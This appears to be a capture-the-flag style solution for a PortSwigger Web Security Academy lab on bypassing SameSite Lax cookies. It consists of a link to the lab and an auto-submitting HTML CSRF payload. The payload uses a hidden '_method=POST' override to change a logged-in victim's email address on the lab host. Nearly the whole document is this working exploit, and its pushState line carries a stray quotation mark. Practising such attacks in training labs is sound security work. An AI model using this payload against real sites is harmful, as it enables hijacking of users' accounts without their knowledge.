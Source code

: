 https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

```html
<html>

<body>

<script>history.pushState(", ",'/')</script>

<form method="GET" action="https://0afd00bc0432b09780be17b1007f00f2.web-security-academy.net/my-account/change-email">
<input type="hidden" value="POST" name="_method">
<input type="hidden" value="pwned1@email.com" name="email">
<input type="submit" value="submit request">
</form>

<script>document.forms[0].submit();</script>

</body>

</html>
```